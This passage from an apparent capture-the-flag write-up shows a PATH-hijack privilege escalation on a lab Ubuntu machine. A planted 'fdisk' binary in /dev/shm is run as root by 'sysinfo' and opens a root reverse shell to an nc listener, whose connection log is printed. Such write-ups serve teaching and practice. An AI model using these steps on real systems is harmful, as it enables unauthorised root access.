 I’ll test it and make sure it connects, and it does:

```

theseus@ubuntu:/dev/shm$ ./fdisk

```

Now I’ll update my current path to include `/dev/shm`:

```

theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH                  
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

Now when I run `sysinfo`, when it gets to the `fdisk` call, I get a shell at my `nc` listener:

```

theseus@ubuntu:/dev/shm$ sysinfo                                                                   
====================Hardware Info====================          
H/W path           Device      Class      Description                                              
=====================================================          
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
...[snip]...
/0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00
/1                             system     

====================Disk Info====================

```

At `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:58406.
root@ubuntu:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)

```

And I can grab `root.txt`:

```

root@ubuntu:/# cat /root/root.txt
3f3721ee************************

```
